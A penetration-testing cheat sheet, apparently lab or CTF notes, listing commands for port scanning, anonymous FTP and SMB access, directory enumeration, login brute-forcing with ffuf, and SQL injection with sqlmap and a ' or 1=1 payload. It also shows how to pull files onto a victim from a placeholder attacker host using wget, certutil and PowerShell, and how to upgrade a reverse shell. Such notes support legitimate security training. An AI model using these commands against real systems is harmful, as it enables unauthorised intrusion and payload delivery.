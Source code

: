 
- [Port Scanning](#ps)
- [21 - FTP Port](#ftp)
- [139/445 - Samba/SMB](#smb)
- [Directory Enumeration](#dir)
- [Login BruteForce](#log)
- [Sql Injection](#si)
- [File Transfer](#ft)
- [Upgrade Shell](#us)

## Port Scanning <a name='ps'></a>

### Nmap
- `-sV` shows the version of the service running on each port.
- `-sC` uses additional scripts to gather more information.
- `-p-` scans all ports. 
- `-p <port>` scans only the specified port number. 
-  `-- open` only displays open ports.
- `--min-rate` Specifies the minimum number of packets Nmap should send per second; increasing this number speeds up the scan. 
```bash
nmap -sC -sV -p 21 10.129.42.253
```


## FTP Port <a name='ftp'></a>

### FTP

```bash
# anonymous login
ftp <machine-ip>
# username anonymous
# password anonymous
```

## Samba/SMB Port <a name='smb'></a>

### SmbClient 
It is a network protocol that allows users to communicate with remote computers and servers to use their resources or share, open, and edit files.

- `-U` access as user.
- `-N` No password.
- `-L` This option allows you to look at what services are available on a server.
```bash
smbclient -U bob \\\\10.129.42.253\\users
    
smbclient -N -L \\\\10.129.117.14\\
```

## Directory Enumeration <a name='dir'></a>

### Gobuster
It is a command-line tool used for performing brute-force scans or directory and subdomain enumeration on a website.
- To find subdirectories:
````bash
#wordlist example:/usr/share/wordlists/dirb/big.txt
#machine example: 10.10.192.23
gobuster dir -u <machine-ip> -w <wordlist> -o gobuster.out
````

- To find subdomains:
```bash
#wordlist example: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
#machine ip example: 10.10.192.25
gobuster vhost -w <wordlist> -u <machine-ip> -o gobuster.out
````

### Login Bruteforce <a name="log"></a>

##### ffuf

```bash
# wordlist = rockyou.txt
ffuf -u http://<machine-ip>/login-page.php -X POST -d '{"user":"FUZZ", "pass":"FUZZ"}' -w wordlist
```

## SQLInjection <a name="si"></a>
For more information consult [[SQL]].

- [SqlMap](https://sqlmap.org/)

```bash
# capture the login request with burp and save it as login.req
sqlmap -r login.req --level=5 --risk=3 --batch

# manual expoitation
> Capture the request with burp
> The entered paramaters will be url encoded, decode it with <ctrl>+<shift>+<u>
> Enter the payload " ' or 1 = 1 -- - " (simple sql injection payload)
> After changing the payload, url encode it with <ctrl>+<u>
```

## File Transfer <a name="ft"></a>

### Python3

### Impackets

```bash 
# between *nix os

# on the attacker machine
python3 -m http.server 8081

# on the victim machine
wget http://<attacker-ip>:<port>/<file>
curl http://<attacker-ip>:<port>/<file> -o <output-file>

#===========================================================#

# from linux to windows

# on the attacker machine
# creates a anonymous login
sudo smbserver.py <share-name> <linux-path> -smb2support

# on the victim machine
copy \\<attacker-ip>\<share-name>\<file> <copy-path-in-windows>
# mount the share in windows
net use x: \\<attacker-ip>\<share-name> /user:<user-name> <password>
copy x:\<file> <copy-path-in-windows>

# from external url
# sometimes fails
powershell -c (new-object System.Net.WebClient).DownloadFile('http://<attacker-ip>/<file>','<download-path-in-windows>')

# works mostly
#@alias
iwr -uri 'http://<attacker-ip>/<file>' -o '<download-path-in-windows>'
#@cmdlet
powershell.exe -command Invoke-WebRequest -Uri 'http://<attacker-ip>/<file>' -OutFile '<download-path-in-windows>'

# using certutil
certutil -urlcache -f 'http://<attacker-ip>/<file>' '<download-path-in-windows>'
```


## Upgrade Shell <a name='us'></a>

When we do a reverse shell, sometimes, we will need to upgrade our shell.

### Python
- Specifically, what it does is establish a new interactive terminal with advanced features, such as full control of function keys, command history, and the ability to use commands like Ctrl+C and Ctrl+Z. This can be useful in situations where greater interactivity is needed in a limited shell session.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# we need to *restart* to apply the changes, so we do:  
CTRL+Z  
stty raw -echo  
fg  
export TERM=xterm
```